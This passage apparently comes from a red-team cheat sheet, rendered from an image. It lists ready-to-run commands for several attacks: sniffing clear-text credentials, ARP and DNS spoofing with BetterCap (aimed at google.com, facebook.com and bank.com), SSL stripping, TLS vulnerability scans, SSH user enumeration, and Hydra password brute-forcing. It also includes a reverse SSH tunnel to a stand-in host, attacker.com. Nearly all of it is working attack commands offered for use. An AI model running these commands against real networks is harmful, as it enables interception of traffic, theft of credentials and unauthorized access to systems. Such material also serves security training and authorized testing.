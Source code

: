 ```bash
tshark -i eth0 -f "tcp port 110" -Y "pop3"      # CLI POP3 analysis

# Clear-Text Protocol Monitoring
- FTP (Port 21): Username/password in clear-text
- Telnet (Port 23): Entire session unencrypted  
- HTTP (Port 80): Cookies, form data, authentication
- SMTP (Port 25): Email content and credentials
MAN-IN-THE-MIDDLE (MITM) ATTACKS
bash
# ARP Spoofing/Poisoning
arpspoof -i eth0 -t 192.168.1.10 192.168.1.1
arpspoof -i eth0 -t 192.168.1.1 192.168.1.10

# BetterCap Framework (Comprehensive MITM)
bettercap -iface eth0
> net.probe on
> net.recon on
> set arp.spoof.targets 192.168.1.10
> arp.spoof on
> net.sniff on

# DNS Spoofing
> set dns.spoof.domains google.com,facebook.com,bank.com
> set dns.spoof.address 192.168.1.100
> dns.spoof on

# SSL Stripping (HTTPS → HTTP)
sslstrip -l 8080
iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 8080
TLS/SSL CRYPTOGRAPHIC ATTACKS
bash
# TLS Configuration Assessment
testssl.sh https://target.com                  # Comprehensive analysis
sslscan 192.168.1.1:443                        # Quick SSL scan

# Vulnerability Scanning
nmap -p 443 --script ssl-heartbleed 192.168.1.1    # Heartbleed
nmap -p 443 --script ssl-poodle 192.168.1.1        # POODLE
nmap -p 443 --script ssl-enum-ciphers 192.168.1.1  # Weak ciphers

# Certificate Analysis
openssl s_client -connect target.com:443       # Manual inspection
sslyze --regular target.com:443                # Automated analysis
SSH SERVICE EXPLOITATION
bash
# Service Identification & Enumeration
nc -v 192.168.1.1 22                           # Banner grabbing
nmap -sV -p22 192.168.1.1                      # Version detection
ssh-audit 192.168.1.1                          # Security configuration audit

# User Enumeration Techniques
ssh invaliduser@192.168.1.1                    # Error message analysis
ssh validuser@192.168.1.1                      # Compare responses

# SSH Tunneling for Red Team Operations
ssh -L 8080:internal:80 user@jumphost          # Local port forwarding
ssh -R 2222:localhost:22 user@attacker.com     # Remote port forwarding
ssh -D 1080 user@jumphost                      # SOCKS proxy
PASSWORD ATTACK METHODOLOGIES
bash
# Hydra - Online Password Attacks
hydra -l admin -P passwords.txt ssh://192.168.1.1
hydra -L users.txt -P rockyou.txt ftp://192.168.1.1
```